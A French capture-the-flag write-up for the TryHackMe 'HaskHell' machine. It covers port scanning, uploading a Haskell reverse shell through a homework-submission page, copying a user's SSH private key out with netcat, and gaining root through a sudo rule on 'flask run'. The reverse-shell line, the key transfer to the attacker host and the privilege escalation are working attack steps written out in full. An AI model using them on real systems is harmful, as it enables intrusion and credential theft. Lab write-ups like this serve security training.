


# HaskHell #

## Task 1 HaskHell ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.111.245 haskhell.thm' > /etc/hosts" 
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A haskhell.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-31 16:32 CEST
Nmap scan report for haskhell.thm (10.10.111.245)
Host is up (0.033s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/31%OT=22%CT=1%CU=33028%PV=Y%DS=2%DC=T%G=Y%TM=612E3DB
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   32.00 ms 10.9.0.1
2   32.24 ms haskhell.thm (10.10.111.245)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.09 seconds

```
La scan nmap nous montre 2 services qui sont : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 5001.    

   

Sur la page principale du site on trouve pas grand chose à part rendre un devoir en haskell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://haskhell.thm:5001 -w /usr/share/dirb/wordlists/common.txt -q
/submit               (Status: 200) [Size: 237]
```

On trouve un répertoire caché subit.    

```haskell
tim@kali:~/Bureau/tryhackme/write-up$ cat shell.hs 
#!/usr/bin/env runhaskell

import System.Process

main = do
callCommand "bash -c 'bash -i >& /dev/tcp/10.9.228.66/1234 0>&1'"
```

On crée un shell en haskell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour avoir se connecter sur le reverse shell.   

   

On téléverse le reverse shell sur le site.  
On obtient un shell.   

**Get the flag in the user.txt file.**

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.221.103] 44376
bash: cannot set terminal process group (830): Inappropriate ioctl for device
bash: no job control in this shell
flask@haskhell:~$ id
id
uid=1001(flask) gid=1001(flask) groups=1001(flask)
flask@haskhell:~$ 

flask@haskhell:~$ ls /home/
ls /home/
flask
haskell
prof

flask@haskhell:/home/prof$ ls
ls
__pycache__
user.txt

flask@haskhell:/home/prof$ cat user.txt
cat user.txt
flag{academic_dishonesty}
```

On a une connection au shell.   
On remarque un autre utilisateur qui est prof.    
Dans prof il y a un fichier qui est user.txt on le lit.    

La réponse est : flag{academic_dishonesty}    

**Obtain the flag in root.txt**

```bash
flask@haskhell:/home/prof$ ls -al
ls -al
total 44
drwxr-xr-x 7 prof prof 4096 May 27  2020 .
drwxr-xr-x 5 root root 4096 May 27  2020 ..
-rw-r--r-- 1 prof prof  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 prof prof 3771 Apr  4  2018 .bashrc
drwx------ 2 prof prof 4096 May 27  2020 .cache
drwx------ 4 prof prof 4096 May 27  2020 .gnupg
drwxrwxr-x 3 prof prof 4096 May 27  2020 .local
-rw-r--r-- 1 prof prof  807 Apr  4  2018 .profile
drwxrwxr-x 2 prof prof 4096 May 27  2020 __pycache__
drwxr-xr-x 2 prof prof 4096 May 27  2020 .ssh
-rw-r--r-- 1 root root   26 May 27  2020 user.txt
flask@haskhell:/home/prof$ cd .ssh	
cd .ssh

flask@haskhell:/home/prof/.ssh$ ls -al
ls -al
total 20
drwxr-xr-x 2 prof prof 4096 May 27  2020 .
drwxr-xr-x 7 prof prof 4096 May 27  2020 ..
-rw-rw-r-- 1 prof prof  395 May 27  2020 authorized_keys
-rw-r--r-- 1 prof prof 1679 May 27  2020 id_rsa
-rw-r--r-- 1 prof prof  395 May 27  2020 id_rsa.pub
flask@haskhell:/home/prof/.ssh$ 

```

Dans le dossier prof on peut récupérer la clef privée id_rsa dans .ssh

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1234 > id_rsa
-----------------------
flask@haskhell:/home/prof/.ssh$ nc 10.9.228.66 1234 < id_rsa
nc 10.9.228.66 1234 < id_rsa
```

On transfert le fichier.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ chmod 600 id_rsa 
tim@kali:~/Bureau/tryhackme/write-up$ ssh -i id_rsa prof@haskhell.thm 
The authenticity of host 'haskhell.thm (10.10.221.103)' can't be established.
ECDSA key fingerprint is SHA256:hx58wuaesK7WY+jWhWJdlCKNY2TR3P0MqLqqDTwVtZA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'haskhell.thm,10.10.221.103' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug 31 15:28:25 UTC 2021

  System load:  0.08               Processes:           96
  Usage of /:   26.2% of 19.56GB   Users logged in:     0
  Memory usage: 45%                IP address for eth0: 10.10.221.103
  Swap usage:   0%


39 packages can be updated.
0 updates are security updates.


Last login: Wed May 27 18:45:06 2020 from 192.168.126.128

$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

On configure id_rsa.    
On se connect sur le compte prof.   
On voit que la configuration sudo nous permet d'exécuter flask run sans mot de passe avec les droits root.  

```bash
$ file /usr/bin/flask
/usr/bin/flask: Python script, ASCII text executable

$ cat /usr/bin/flask
#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'Flask==0.12.2','console_scripts','flask'
__requires__ = 'Flask==0.12.2'
import re
import sys
from pkg_resources import load_entry_point

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(
        load_entry_point('Flask==0.12.2', 'console_scripts', 'flask')()
    )

$ echo 'import pty;pty.spawn("/bin/bash")' > script.py
$ export FLASK_APP=script.py
$ sudo /usr/bin/flask run
root@haskhell:~# id
uid=0(root) gid=0(root) groups=0(root)
root@haskhell:~# cat /root/root.txt
flag{im_purely_functional}
```

On créer un script qui exécute un shell.   
On indique à flask d'exécuter le script en mettant le nom du script dans la variable d'environnement FLASK_APP.    
On exécute flase run avec les droits root.   
On obtient un shell root.  
On lit le fichier root.txt dans root.   

La réponse est : flag{im_purely_functional}   